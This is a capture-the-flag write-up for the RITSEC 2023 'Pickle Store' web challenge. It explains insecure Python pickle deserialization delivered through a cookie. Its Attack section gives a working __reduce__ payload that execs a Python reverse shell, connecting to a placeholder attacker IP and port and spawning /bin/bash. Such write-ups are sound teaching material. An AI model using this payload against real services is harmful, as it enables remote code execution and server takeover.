 # Pickle Store (RITSEC 2023 - Web)

**Challenge description**: "New pickles just dropped! Check out the store."<br>
**Challenge date**: ven, 31 Mar. 2023, 16:00 UTC — dom, 02 Apr. 2023, 16:00 UTC<br>
**Challenge points**: 223<br>

## Involved Vulnerability

The server of this challenge uses the Python module called *pickle*, which is used for serializing (“*Pickling*”) and de-serializing (“*Unpickling*”) Python objects' structure (see [[1]](#1)). This module is vulnerable to RCE during unpickling of class instances (objects). Classes can be defined to contain methods that can be called during unpickling process. One of these methods is *\_\_reduce()\_\_*.<br>
As evidenced by [[1]](#1):<br>

>The \_\_reduce\_\_() method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”).<br>
If a string is returned, the string should be interpreted as the name of a global variable. \[...\]<br>
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:<br> - A **callable object** that will be called to create the initial version of the object.<br> - A **tuple of arguments** for the callable object. An empty tuple must be given if the callable does not accept any argument.<br> - \[...\]

A Python function is a callable object. So, if the attacker defines a class like the one below, pickles its instance and send the pickled object to the server, this will execute the specified function with the parameters given in the tuple.
```python
class RCE:
    def __reduce__():
        return (function_name, (parameter_1,parameter_2,)) #if there is only 1 parameter: (parameter_1,)
```
## Exploring the challenge
This is the first thing the user see as soon as he/she accesses the challenge:

![Pickle Store](https://user-images.githubusercontent.com/66698256/229376712-d235bbbb-0d59-4c3d-a9e0-ab0829107127.png)

If the user clicks on one of the buttons (the first one, for example), he/she will be redirected to <code>/order</code>:

![Order executed](https://user-images.githubusercontent.com/66698256/229377403-7b7e14fd-62dd-46fd-9b15-5188b734f11d.png)

Clicking on the "New Order" button the user will be redirected to the initial page. By inspecting the four buttons something interesting can be noticed:

![Cookie setting](https://user-images.githubusercontent.com/66698256/229377514-b38166dd-aa58-412f-866b-9b865f722abc.png)

When a button is clicked, a cookie called "*order*" is set to a pickled string and sent to the server through a GET request to <code>/order</code>. Here the pickled string is presumably read from the cookie, decoded, unpickled and ultimately printed into the returned page. Thanks to this cookie the server knows which article (or pickle) the user "has chosen to buy".<br>
If we take the cookie value defined in the event handler of the "Sweet Pickle" button, decode it and unpickle it, we'll understand better how all this works.

![Unpickling](https://user-images.githubusercontent.com/66698256/229381958-d871524b-304f-4e3b-932b-790bd8eba284.png)

As expected, the string obtained ("*sweetpickle*") is the same visualized in the <code>/order</code> page.<br>
The user can create any pickled object and set the "*order*" cookie accordingly. This object will be unpickled by the server and, somehow, printed on the <code>/order</code> page.

![Pickling](https://user-images.githubusercontent.com/66698256/229382473-c062a8e3-a07e-4b39-8ee6-72cf397041aa.png)

![Set forged cookie](https://user-images.githubusercontent.com/66698256/229382220-2c6b25ef-d00e-4681-8267-fa8c751e4892.png)

![AAAA](https://user-images.githubusercontent.com/66698256/229378762-be51dd0c-33b0-40c2-abcf-c1b41e340fde.png)


## Attack

The behaviour to be exploited is the insecure unpickling (or insecure deserialization) of particular pickled objects. What the application does with the output of the deserialization is of no interest to the attacker. A way to exploit the involved vulnerability was to spawn a reverse shell on the server through Python code.

```python
host="IP_Address"
port="PORT"
class RCE:
    def __reduce__():
        #define code here won't work
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
```
Variables <code>host</code> and <code>port</code> contain, respectively, the IP address and the port on which the attacker will listen for the spawned reverse shell. 

## References
<a id="1" target="_blank">[1]</a> 
https://docs.python.org/3/library/pickle.html


